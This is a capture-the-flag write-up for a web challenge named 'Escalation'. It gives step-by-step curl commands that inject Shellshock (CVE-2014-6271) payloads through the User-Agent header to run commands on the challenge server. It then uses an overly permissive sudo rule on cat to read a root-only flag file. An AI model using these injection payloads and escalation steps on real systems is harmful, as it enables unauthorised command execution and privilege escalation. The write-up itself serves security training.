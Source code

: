 # Escalation

- **Category**: Web  
- **Appearance conditions**: after solving Challenge `2014-6271`.  
- **Solution**: privilege escalation via improper sudo configuration.  

---

| Step | Screenshot |
|------|------------|
|1. Open the challenge and see the message *Do you find rootflag?*|<img width="505" height="241" alt="image" src="https://github.com/user-attachments/assets/fa0c75a4-4f1d-4ea6-b371-18752414068e" />|
|2. Try searching for *rootflag* on the server using the following command.<br>`curl -A "(){ :;}; /usr/bin/find / -type f -name *rootflag* 2>/dev/null " -b "your_session_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br>This reveals the *rootflag* file.|<img width="826" height="358" alt="image" src="https://github.com/user-attachments/assets/d9f4c694-d18d-4d2a-abd2-3e7a8f172c48" />|
|3. Next, check the file permission with the following command.<br>`curl -A "(){ :;}; /usr/bin/ls -la /tmp/hidden/access_denied/busted/rootflag.txt" -b "your_session_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br>The result shows you need root permission to read this file.<br><br>First, check the current login user using the `id` command:<br>`curl -A "(){ :; }; /usr/bin/id " -b "your_session_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br>The result shows the user is `www-data`, which is a low-privileged account.|<img width="1888" height="764" alt="image" src="https://github.com/user-attachments/assets/6f6ed8e6-fa1d-4803-936f-8a6d8134099d" />|
|4. How can we get root permission?<br>Although there are many ways to escalate privileges, this time we investigate `sudo`, since it is often the easiest method. (See [reference](https://linuc.org/study/column/4047/))||
|5. Run the `sudo -l` command. The `-l` option shows which programs can be run with root privileges by the current user.<br>The output shows `/usr/bin/cat` is allowed.|<img width="1897" height="914" alt="image" src="https://github.com/user-attachments/assets/806ddcc7-af5c-48d6-8692-98418e7784ee" />|
|6. Finally, read the *rootflag* file using `cat` with `sudo`.<br>`curl -A "(){ :; }; /usr/bin/sudo /usr/bin/cat /tmp/hidden/access_denied/busted/rootflag.txt" -b "session=your_cookie" https://nctf.xvps.jp/ntsettings/vuln.sh`<br><br>🎊 Congratulations! You got the flag.|<img width="1878" height="750" alt="image" src="https://github.com/user-attachments/assets/3df56fce-ccd6-4f42-83c6-2661eba4f3ff" />|
